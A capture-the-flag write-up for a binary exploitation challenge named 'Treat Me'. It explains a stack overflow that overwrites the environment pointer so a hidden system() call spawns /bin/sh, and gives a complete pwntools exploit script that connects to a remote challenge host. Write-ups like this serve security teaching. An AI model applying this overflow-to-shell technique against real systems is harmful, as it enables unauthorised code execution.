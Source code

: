 # Treat Me

#### Category: pwn
#### Points: 200

Let's, check the binary.
```
$ checksec ./treat
[*] '/home/vn-ki/ctf/inferno/treat/treat'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Reversing the binary, we see there are 3 inputs.

1. Our name, stored in `.bss`, i.e. we know the address of this without leaking.
2. Choice, this is a buffer on the stack.
3. Feedback, this is the same buffer as 2.

All the inputs are taken using a custom function which will terminate the input at null and newline.

I initally thought of a ret2plt, but the null characters will be a problem.

Inspecting more we discover another function.

```c
void FUN_00401186(void)
{
  char *__command;

  puts("You want some special treat?\nHere you go");
  __command = getenv("TREAT");
  system(__command);
  return;
}
```

Well, well, well, what do we have here.

This function calls system on the environment variable TREAT.

The attack vector is quite clear now. Overwrite the environment variables on the stack to point to TREAT=/bin/sh.

For that we have to find how far away the first environment variable is.
```
pwndbg> x/gx (char **)environ
0x7fffffffdea8: 0x00007fffffffe212
pwndbg> distance 0x7fffffffddb8 0x7fffffffdea8
0x7fffffffddb8->0x7fffffffdea8 is 0xf0 bytes (0x1e words)
```

So we will overwrite the first pointer at environ to point to our name in the `.bss` and call the function.

So our inputs will be used like:

1. Name will be `TREAT=/bin/sh`
2. Our second input will be garbage of length 72 + 0xf0 = 0x138 (72 is the distance from buffer to RIP) and the adresss of input 1.
3. Using our third overflow, we will control the RIP.

The full exploit,

```python
from pwn import *

binary = './treat'
context.arch = 'amd64'

# p = process(binary)
p = remote('130.211.214.112', 18010)
# gdb.attach(p, 'b *0x0040162c')
p = gdb.debug(binary, 'b *0x0040162c')

p.sendline("TREAT=/bin/sh")

p.sendline('A'*0x138 + '\x80\x50\x40')
p.sendline('A' * 72 + p64(0x00401186))
p.interactive()
```
